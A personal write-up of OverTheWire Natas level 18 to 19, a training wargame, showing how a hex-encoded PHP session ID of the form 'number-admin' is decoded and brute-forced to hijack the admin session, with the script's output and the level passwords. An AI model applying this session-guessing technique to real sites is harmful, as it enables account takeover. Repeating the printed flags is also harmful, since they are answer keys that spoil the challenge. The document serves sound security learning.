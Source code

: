 # Natas Level 18 → Level 19 Obfuscation ≠ Security

## Previous Flag
<b>tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr</b>

## Goal
Username: natas19<br>
URL: http://natas19.natas.labs.overthewire.org<br>

This page uses mostly the same code as the previous level, but session IDs are no longer sequential...<br><br>
Please login with your admin account to retrieve credentials for natas20.<br>
Username:<br>
Password:<br>
Login

## What I learned
```
Hex-encoding, base64, or anything similar doesn't make something secure if it’s still guessable
PHP session ID is hex-encoded (e.g., 3f6d2a9a) instead of just 34 but still goes to 640
So just need To Hex number and concatenate w/ hex of -admin

TODO Later: Burp Suite Solution (When I get better) 🧠🧠🧠🧠🧠
https://samxia99.medium.com/overthewire-updated-natas-walkthrough-level-20-ed37d1d1e03d
```

## Solution
```
# Put any username and password and get assigned PHPSESSID
F12 → Application
Storage → Cookies

Name        Value
PHPSESSID   3533372d61646d696e

https://gchq.github.io/CyberChef/
From Hex    Input: 3533372d61646d696e
            Output: 537-admin

To Hex      Input: -admin                           # Since front is random hex
            Output: 2d61646d696e                    # Converted to hex

@trungdullc ➜ /workspaces/01noobHacker (main) $ python3 scripts/phpSessionIDBruteForceHex.py ⌨️
PHPSESSID=3237392d61646d696e
PHPSESSID=3238302d61646d696e
PHPSESSID=3238312d61646d696e 👀
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw</pre></div> 🔐
</body>
</html>

PHPSESSID=3238322d61646d696e
PHPSESSID=3238332d61646d696e
PHPSESSID=3238342d61646d696e
PHPSESSID=3238352d61646d696e
PHPSESSID=3238362d61646d696e
PHPSESSID=3238372d61646d696e
^C ⌨️

# Double Check by login as admin and any password
F12 → Application
Storage → Cookies

Name        Value
PHPSESSID   <Random> → 3238312d61646d696e
F5 (Refresh)

You are an admin. The credentials for the next level are:
Username: natas20
Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw 🔐
```

## Flag
<b>p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw</b>

## Continue
[Continue](/overthewire/Natas1920.md)